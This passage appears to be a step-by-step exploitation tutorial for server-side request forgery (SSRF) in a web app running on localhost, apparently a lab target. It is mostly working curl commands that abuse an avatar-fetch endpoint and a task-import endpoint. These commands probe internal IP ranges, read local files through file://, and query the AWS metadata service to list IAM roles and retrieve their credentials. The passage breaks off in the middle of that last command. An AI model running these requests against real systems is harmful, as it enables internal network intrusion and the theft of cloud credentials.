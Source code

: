 ## Step-by-Step Exploitation Tutorial

### Phase 1: Discovery and Reconnaissance

1. **Identify SSRF Entry Points**
   ```bash
   # Test basic SSRF functionality
   curl -X POST http://localhost:3000/api/users/avatar \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"imageUrl":"http://httpbin.org/ip","fetchFromUrl":true}'
   
   # Test task import functionality
   curl -X POST http://localhost:3000/api/tasks/import \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"importUrl":"http://httpbin.org/headers","format":"json"}'
   ```

2. **Test Internal Network Access**
   ```bash
   # Test localhost access
   curl -X POST http://localhost:3000/api/users/avatar \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"imageUrl":"http://localhost:80","fetchFromUrl":true}'
   
   # Test private IP ranges
   for ip in 192.168.1.1 10.0.0.1 172.16.0.1; do
     curl -X POST http://localhost:3000/api/users/avatar \
          -H "Authorization: Bearer $TOKEN" \
          -H "Content-Type: application/json" \
          -d "{\"imageUrl\":\"http://$ip\",\"fetchFromUrl\":true}"
   done
   ```

3. **Test File Protocol Support**
   ```bash
   # Test file:// protocol
   curl -X POST http://localhost:3000/api/users/avatar \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"imageUrl":"file:///etc/hostname","fetchFromUrl":true}'
   ```

### Phase 2: Cloud Metadata Exploitation

1. **AWS Metadata Service**
   ```bash
   # Get instance metadata
   curl -X POST http://localhost:3000/api/tasks/import \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"importUrl":"http://169.254.169.254/latest/meta-data/instance-id","format":"json"}'
   
   # List IAM roles
   curl -X POST http://localhost:3000/api/tasks/import \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"importUrl":"http://169.254.169.254/latest/meta-data/iam/security-credentials/","format":"json"}'
   
   # Get IAM credentials (replace ROLE_NAME with actual role)
   curl -X POST http://localhost:3000/api/tasks/import \
        -H "Authorization: Bearer $TOKEN" \
   ```